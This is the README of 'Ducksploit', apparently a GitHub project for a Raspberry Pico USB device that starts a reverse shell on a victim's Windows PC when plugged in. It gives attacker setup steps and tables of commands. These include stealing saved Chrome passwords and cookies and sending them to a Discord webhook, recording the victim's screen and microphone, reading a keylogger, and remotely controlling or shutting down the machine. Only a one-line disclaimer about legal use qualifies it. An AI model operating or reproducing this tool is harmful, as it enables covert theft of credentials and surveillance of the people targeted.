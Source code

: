 ![banner](https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/banner.png?raw=true "banner")

# Ducksploit
![](https://img.shields.io/badge/Version-1.0.7-red) ![](https://img.shields.io/github/stars/canarddu38/DUCKSPLOIT) ![](https://img.shields.io/github/issues/canarddu38/DUCKSPLOIT) ![](	https://img.shields.io/github/forks/canarddu38/DUCKSPLOIT) ![](https://img.shields.io/github/license/canarddu38/DUCKSPLOIT) ![](https://img.shields.io/badge/Windows-blue)

## Awsome crossbreed of batch and python on Windows ♥
 <center>
<img src="https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/pyxbat.png?raw=true" alt="pyxbat" width="300"/><img src="https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/windows-10.png?raw=true" alt="win10" widith="100" height="100"/>
</center>

## Install Ducksploit

#### Hacker
###### setup raspberry pico (hacker)
1. Download https://github.com/canarddu38/DUCKSPLOIT/archive/root.zip
2. Extract downloaded zip file
3. Plugg your raspberry pico on your PC with the BOOTSEL button
   [![picobootbutton](https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/picoboot.png?raw=true "picobootbutton")](https://github.com/canarddu38/DUCKSPLOIT/blob/root/images/picoboot.png?raw=true "picobootbutton")
4. Move CircuitPython.uf2 file in the E:\ or F:\ <-- usb port (port of your pico)
   now your raspberry pico gonna leave usb port and reconnec with CIRCUITPY name
5. Erase all the content of your raspberry pico and copy all the extracted repo folder into him
6. Write myip.txt and write your own IP
7. Now your raspberry pico is full configured , unplugg your pico and done!

###### setup ducksploit commands (hacker)

1. Download https://github.com/canarddu38/DUCKSPLOIT/archive/root.zip
2. Extract downloaded zip file
3. If python is not installed, launch 'installpython.bat' or download at https://www.python.org/ftp/python/3.8.0/python-3.8.0.exe
4. launch setup.bat       ###MUST BE RUN AS ADMINISTRATOR###
5. wait till installation is finished
7. Ducksploit is now installed on your PC :smile:
8. Type 'ds' in the cmd
9. Wait victim's connection using 'wait' command
10. Have fun with ducksploit hacking commands (type help to get commands list)

⚠️ WHEN EXPLOIT/SCRIPT IS RUNNING, TYPE ON 'ESC' KEY ⚠️

#### Victim
Just plugg the raspberry pico in your pc (or hacker can do also)
That will start automaticaly the client of the reverse shell

:warning: Ducksploit is made for legal use or educational use (then, we are not responsible for any crimes committed by our users):warning:

## Uninstall Ducksploit (victim)

1. type 'ds uninstall' in cmd
2. Done  :smile:

## SUPPORT
support us with     
<noscript><a href="https://www.paypal.com/paypalme/Canarddu38"><img alt="Donate 👍 using Paypal" src="https://www.paypalobjects.com/webstatic/mktg/Logo/pp-logo-200px.png"></a></noscript>        or        <noscript><a href="https://www.patreon.com/ducksploit"><img alt="Donate 👍 using Patreon" src="https://forum.cwowd.com/uploads/default/original/3X/6/d/6d1cdda143cc46667d87659d64d15a869a9b6139.png" width="100" height="100"></a></noscript>

## **Commands**

#### Launch
| Command | Usage | Result |
| ------------- | ------------- | ------------- |
| wait    | wait | wait your victim's connection |


#### Account
| Command | Usage    | Result |
| ------------- | ------------- | ------------- |
| info | info | view all your account's infos |

#### Exploits
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| stealpwds | stealpwds (discord webhook url) | steal all saved chrome passwords of your victim and send them into a discord webhook |
| stealcookies  | stealcookies (discord webhook url) | steal all saved chrome cookies of your victim and send them into a discord webhook |
| open  | open (applicationname.exe) | open mensioned application |
| recordscreen  | recordscreen (time in second) | record victim's screen durring amount of time |
| recordmicro  | recordmicro (time in second) | record victim's micro durring amount of time |

## ⚠️ To get your victim's keylogs, go on 'http://{ip of your victim}:8013/keylogger/' ⚠️

#### Mouse
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| mouseclick | mouseclick [left, right, middle] | make the victim click the mensionned button |
| mousemove | mousemove (x) (y) | move the victim's cursor by x and y pixels |
| locatemouse | locatemouse | get the victim's cursor current locations |

#### Alert Window
| Command  | Usage | Result |
| ------------- | ------------- | ------------- |
| msg | msg (title) (line1) (line2) | create an alertbox and send it on the vitim's pc with a title and 2 lines (if -file set line1 to createfile command content)

#### Troll
| Command | Usage | Result |
| ------------- | ------------- | ------------- |
| skull   | skull | spam cmds with skull and crossbones |

#### Mysc 
| Command      | Usage       | Result                            |
|--------------|-------------|-----------------------------------|
| uninstall    | uninstall   | uninstall ducksploit              |
| update       | update      | update ducksploit                 |
| credits      | credits     | view ducksploit's credits         |
| help         | help        | getting the list of all commands  |
| shutdown     | shutdown    | make the victim's pc shutdown     |
| reboot       | reboot      | make the victim's pc reboot       |
| closesession | closesesion | make the victim's session close   |
